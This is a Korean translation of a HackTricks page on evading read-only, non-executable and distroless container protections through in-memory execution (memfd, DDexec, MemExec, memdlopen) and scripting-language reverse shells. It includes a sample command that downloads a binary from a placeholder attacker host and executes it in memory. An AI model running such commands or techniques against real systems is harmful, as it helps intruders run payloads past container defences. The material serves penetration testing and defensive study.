 # FS 보호 우회: 읽기 전용 / 실행 불가 / Distroless

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스왑**](https://peass.creator-spring.com)을 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 동영상

다음 동영상에서는 이 페이지에서 언급된 기술에 대해 더 자세히 설명된 내용을 찾을 수 있습니다:

* [**DEF CON 31 - 은밀하고 회피를 위한 Linux 메모리 조작 탐색**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**DDexec-ng 및 인메모리 dlopen()을 사용한 은밀한 침입 - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## 읽기 전용 / 실행 불가 시나리오

리눅스 머신에서 **읽기 전용 (ro) 파일 시스템 보호**가 특히 컨테이너에서는 점점 더 일반적으로 사용됩니다. 이는 `securitycontext`에서 **`readOnlyRootFilesystem: true`**를 설정하는 것만으로도 읽기 전용 파일 시스템으로 컨테이너를 실행하는 것이 매우 쉽기 때문입니다:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

그러나 파일 시스템이 읽기 전용으로 마운트되어 있더라도 **`/dev/shm`**은 여전히 쓰기 가능하므로 디스크에 아무것도 쓸 수 없는 것은 가짜입니다. 그러나 이 폴더는 **실행 불가 보호로 마운트**됩니다. 따라서 여기에 이진 파일을 다운로드하면 **실행할 수 없습니다**.

{% hint style="warning" %}
레드 팀 관점에서는 이로 인해 시스템에 이미 없는 (백도어 또는 `kubectl`과 같은) 이진 파일을 **다운로드하고 실행하는 것이 복잡**해집니다.
{% endhint %}

## 가장 쉬운 우회: 스크립트

이진 파일을 언급했지만, **인터프리터가 머신 내부에 있는 한 스크립트**를 실행할 수 있습니다. 예를 들어, `sh`가 설치되어 있다면 **쉘 스크립트** 또는 **파이썬**이 설치되어 있다면 **파이썬 스크립트**와 같은 스크립트를 실행할 수 있습니다.

그러나 이는 이진 파일 백도어나 실행해야 할 다른 이진 도구를 실행하는 데 충분하지 않습니다.

## 메모리 우회

파일 시스템에서 이를 허용하지 않더라도 이진 파일을 실행하려면 **메모리에서 실행**하는 것이 가장 좋은 방법입니다. 왜냐하면 **보호 기능이 적용되지 않기 때문**입니다.

### FD + exec 시스콜 우회

**Python**, **Perl**, 또는 **Ruby**와 같은 강력한 스크립트 엔진이 머신 내부에 있는 경우, 이진 파일을 메모리에서 실행하기 위해 메모리 파일 디스크립터 (`create_memfd` 시스콜)에 저장한 다음 **`exec` 시스콜**을 호출하여 **fd를 실행할 파일로 지정**할 수 있습니다.

이를 위해 [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) 프로젝트를 쉽게 사용할 수 있습니다. 여기에 이진 파일을 전달하면 **이진 파일을 압축하고 b64로 인코딩**한 스크립트가 지정된 언어로 생성되며, `create_memfd` 시스콜을 호출하여 생성된 **fd**에 이진 파일을 **디코딩하고 압축 해제**하는 지침과 **exec** 시스콜을 호출하여 실행하는 지침이 포함됩니다.

{% hint style="warning" %}
PHP 또는 Node와 같은 다른 스크립팅 언어에서는 스크립트에서 **raw syscalls를 호출하는 기본 방법이 없기** 때문에 `create_memfd`를 호출하여 **메모리 fd**를 생성하는 것이 불가능하므로 이 방법은 작동하지 않습니다.

또한 `/dev/shm`의 파일을 가진 **일반적인 fd**를 생성해도 실행할 수 없습니다. 왜냐하면 **실행 불가 보호**가 적용되기 때문입니다.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec)는 **`/proc/self/mem`**을 덮어쓰는 것으로 **자체 프로세스의 메모리를 수정**할 수 있는 기술입니다.

따라서 프로세스에서 실행되는 어셈블리 코드를 **제어**하여 **쉘코드**를 작성하고 프로세스를 **임의의 코드를 실행**하도록 "변이"시킬 수 있습니다.

{% hint style="success" %}
**DDexec / EverythingExec**를 사용하면 **메모리**에서 자체 **쉘코드** 또는 **임의의 이진 파일**을 **로드하고 실행**할 수 있습니다.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
더 많은 정보를 원한다면 Github를 확인하거나 다음을 참조하세요:

{% content-ref url="ddexec.md" %}
[ddexec.md](ddexec.md)
{% endcontent-ref %}

### MemExec

[**Memexec**](https://github.com/arget13/memexec)는 DDexec의 자연스러운 다음 단계입니다. 이는 **DDexec 쉘코드를 데몬화**한 것으로, 다른 이진 파일을 실행하려면 DDexec를 다시 시작할 필요가 없으며, DDexec 기술을 통해 memexec 쉘코드를 실행한 다음 **이 데몬과 통신하여 새로운 이진 파일을 로드하고 실행**할 수 있습니다.

[https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php)에서 **memexec를 사용하여 PHP 역쉘에서 이진 파일을 실행하는 예제**를 찾을 수 있습니다.

### Memdlopen

DDexec와 비슷한 목적을 가진 [**memdlopen**](https://github.com/arget13/memdlopen) 기술은 **메모리에 이진 파일을 로드하는 더 쉬운 방법**을 제공하여 나중에 실행할 수 있습니다. 이는 종속성을 가진 이진 파일을 로드할 수도 있습니다.

## Distroless 우회

### Distroless란?

Distroless 컨테이너는 라이브러리와 런타임 종속성과 같은 **특정 애플리케이션 또는 서비스를 실행하는 데 필요한 최소한의 구성 요소만 포함**하며, 패키지 관리자, 쉘 또는 시스템 유틸리티와 같은 큰 구성 요소는 제외됩니다.

Distroless 컨테이너의 목표는 **불필요한 구성 요소를 제거함으로써 컨테이너의 공격 표면을 줄이고 악용될 수 있는 취약점의 수를 최소화**하는 것입니다.

### 역쉘

Distroless 컨테이너에서는 일반적인 쉘을 얻기 위해 **`sh` 또는 `bash`**를 찾을 수 없을 수도 있습니다. 또한 시스템에서 일반적으로 실행하는 `ls`, `whoami`, `id`와 같은 이진 파일도 찾을 수 없습니다.

{% hint style="warning" %}
따라서, 일반적으로 시스템을 **열거**하거나 **역쉘**을 얻을 수 없습니다.
{% endhint %}

그러나, 감염된 컨테이너가 예를 들어 flask 웹을 실행하고 있다면 python이 설치되어 있으므로 **Python 역쉘**을 얻을 수 있습니다. node가 실행 중이면 Node 역쉘을 얻을 수 있으며, 대부분의 **스크립팅 언어**도 마찬가지입니다.

{% hint style="success" %}
스크립팅 언어를 사용하면 언어의 기능을 사용하여 시스템을 **열거**할 수 있습니다.
{% endhint %}

**읽기 전용/실행 불가능** 보호 기능이 없다면 역쉘을 악용하여 이진 파일을 파일 시스템에 **작성**하고 **실행**할 수 있습니다.

{% hint style="success" %}
그러나 이러한 종류의 컨테이너에서는 일반적으로 이러한 보호 기능이 존재하지만, **이전의 메모리 실행 기술을 사용하여 우회**할 수 있습니다.
{% endhint %}

[**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE)에서 **일부 RCE 취약점을 악용하여 스크립팅 언어의 역쉘을 얻고 메모리에서 이진 파일을 실행하는 방법에 대한 예제**를 찾을 수 있습니다.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 **자신의 해킹 기법을 공유**하세요.

</details>
